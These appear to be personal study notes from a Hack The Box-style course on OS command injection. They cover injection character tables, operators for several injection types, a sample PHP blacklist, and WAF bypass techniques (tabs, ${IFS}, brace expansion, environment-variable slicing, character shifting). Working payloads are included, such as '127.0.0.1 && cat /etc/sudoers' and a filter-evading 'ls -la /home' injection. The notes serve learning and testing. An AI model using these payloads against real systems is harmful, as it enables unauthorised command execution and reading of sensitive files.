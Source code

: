 ### Injection Chars
|   |   |   |   |
|---|---|---|---|
|New Line|`\n`|`%0a`|Both|
|Background|`&`|`%26`|Both (second output generally shown first)|
|Pipe|`\|`|`%7c`|Both (only second output is shown)|
|AND|`&&`|`%26%26`|Both (only if first succeeds)|
|OR|`\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell|` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell|`$()`|`%24%28%29`|Both (Linux-only)|

### Injection operators
|**Injection Type**|**Operators**|
|---|---|
|SQL Injection|`'` `,` `;` `--` `/* */`|
|Command Injection|`;` `&&`|
|LDAP Injection|`*` `(` `)` `&` `\|`|
|XPath Injection|`'` `or` `and` `not` `substring` `concat` `count`|
|OS Command Injection|`;` `&` `\|`|
|Code Injection|`'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^`|
|Directory Traversal/File Path Traversal|`../` `..\\` `%00`|
|Object Injection|`;` `&` `\|`|
|XQuery Injection|`'` `;` `--` `/* */`|
|Shellcode Injection|`\x` `\u` `%u` `%n`|
|Header Injection|`\n` `\r\n` `\t` `%0d` `%0a` `%09`|

* ### Command injection basics
	* you append these characters to the input string to execute your command
		* example (site that pings a given ip addr takes ip as input string, we can append the && char to execute our command): 
			* `127.0.0.1 && cat /etc/sudoers`
### Example site observations
* The input field of a HTML form can be regexed
	*  the pattern in this site is
```r
^((\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.){3}(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])$
```
* this matches for ip addresses by looking for numbers
	* ##### this could be bypassed by URL encoding a injection char
		* eg: `ip=127.0.0.1+%26%26+whoami`
			* (`127.0.0.1 && whoami`)

### Interesting quirks
* #### OR 
	*  `||` < The Linux OR command only runs if the  second command if the first command fails
	* ###### If you can deliberately break the first command that uses your user provided string (eg: not providing a valid ip addr) you can get our command to run
		* in:
			* `ping -c 1 || whoami`
		* out:
			* `ping: usage error: Destination address required \n root`
		* this is called a Injection operator [[Command Injection#Injection operators]]
			* basically just a multi char version of a injectable char
* #### \\n
	* the new line character is usually not blocked by WAFS or client side detection
		* it might be needed in the payload
	* it can be used as a injection operator
### Identifying Filters
* WAFS
	* sometimes devs may outsource form validation to another company like Cloudflare
	* they use WAFS to do this
	* If the error message from your injection req is displayed on a different page, with information like our IP and our request, this may indicate that it was denied by a WAF
	* Below is some example code a WAF could use
```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

### Bypass blocked operators/chars
* ### Space
	* space is usually blacklisted especially if the input should not contain any spaces
	* its used to define arguments so we prob need it
	* #### Tabs
		* Using tabs (%09) instead of spaces is a technique that may work, as both Linux and Windows accept commands with tabs between arguments.
	* #### ($IFS) Linux Environment Variable
		* default value for IFS is space
		* this can be used in place of space like this:
			* `127.0.0.1%0a${IFS}`
			* `use ${IFS} where the spaces should be`
	* #### Brace Expansion
		* Linux automatically adds spaces between args wrapped in braces
			* `127.0.0.1%0a{ls,-la}`
	* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space
* ### Using Env Variables to get passable chars
* #### Linux
	* Linux Env variables can potentially contain illegal chars for example in the  `${PATH}`  var displayed below it contains /
		* ` /usr/local/bin:/usr/bin:/bin:/usr/games`
		* `/\ This "/" char is illegal`
	* We can use the index of this string to get our illegal char
```bash
becker63@htb[/htb]$ echo ${LS_COLORS:10:1}
;
```

* #### Windows
* CMD
	* "The same concept work on Windows as well. For example, to produce a slash in `Windows Command Line (CMD)`, we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\htb-student`), and then specify a starting position (`~6` -> `\htb-student`), and finally specifying a negative end position, which in this case is the length of the username `htb-student` (`-11` -> `\`) "
```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%
\
```

* PowerShell
	*  With PowerShell, a word is considered an array
	* just have to specify the index of the character we need
```powershell
PS C:\htb> $env:HOMEPATH[0]
\
```

* ### Char shifting
	* "There are other techniques to produce the required characters without using them, like `shifting characters`. For example, the following Linux command shifts the character we pass by `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with `man ascii`), then add it instead of `[` in the below example. This way, the last printed character would be the one we need"
```shell
becker63@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
becker63@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)
\
```

### Putting [[Command Injection#Bypass blocked operators/chars]] together
* list the contents of "home"
```
ip=127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home
            /\          /\        /\   
         New line      Space     "/"char 
```
```shell
\/ full command
ls -la /home
```
